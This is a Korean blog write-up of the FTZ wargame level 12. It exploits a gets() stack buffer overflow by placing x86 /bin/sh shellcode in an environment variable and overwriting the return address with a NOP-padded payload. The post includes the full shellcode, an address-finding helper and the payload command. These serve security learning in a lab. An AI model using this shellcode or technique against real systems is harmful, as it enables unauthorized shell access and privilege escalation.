 ```yaml
---
title:  "[FTZ] level 12"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-01 00:02:29

---
```


# level 12

**level12 / it is like this**

힌트

![image](https://user-images.githubusercontent.com/69203345/144245866-c8d46fca-5e50-46b0-a53c-bcc3ecb9335c.png)

![image](https://user-images.githubusercontent.com/69203345/144246006-4d8af91c-7b7c-4d3a-b0cf-305568326083.png)

level 11 로 들어간줄...ㅋㅋㅋㅋㅋㅋㅋㅋㅋㅋ  

이번엔 gets로 받는다  
gets함수 역시 문자열의 길이를 확인하지 않기 때문에 버퍼오버플로우에 취약하다

![image](https://user-images.githubusercontent.com/69203345/144246984-77f63a82-415a-435d-9dea-c6c753a425b8.png)

일단 해보자  

0x08048473 <main+3>: sub esp,0x108  
char str[256]의 0x100 공간을 확보한후 dummy 0x8만큼 확보했다  
총 264byte 공간확보

0x08048479 <main+9>: sub esp,0x8  
총 272byte 공간확보

아마 스택의 구조는 level11과 같지 않을까 싶다

높은주소

[ RET(4) ]  
[ SFP(4) ]  
[ dummy(8) ]  
[ str(256) ]  

낮은주소

이번에는 환경변수로 해결  
tmp 폴더로 이동후 아래 명령어 작성

사용할 쉘 코드 주소값을 환경변수로 등록
>$export EGG=`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

환경변수 SHELLCODE의 주소 값 확인
>$echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); } ' > getenv.c

>$gcc getenv.c -o getenv\\
$./getenv

![image](https://user-images.githubusercontent.com/69203345/144251580-8eec3861-c515-4b70-8ef4-c8f0c8f71a02.png)


0xbffffc8e 에 있다고 한다  
0xbffffc8e를 리턴 주소로 잡고 bof 시도  

gets는 입력 대기 상태에서 값을 입력받으므로
>(python -c 'print"\x90"*268+"\x8e\xfc\xff\xbf"'; cat) \| ./attackme

python프로그램을 사용하여 \x90(1byte)를 268만큼 출력 해서 SFP까지 덮음  
RET주소에 ./getenv를 통해 출력된 쉘 코드 주소 값을 채워 넣음

![image](https://user-images.githubusercontent.com/69203345/144253095-60ad4622-522b-4515-a771-a00d03f8044a.png)

환경변수를 이용하면 깔끔하네

다음!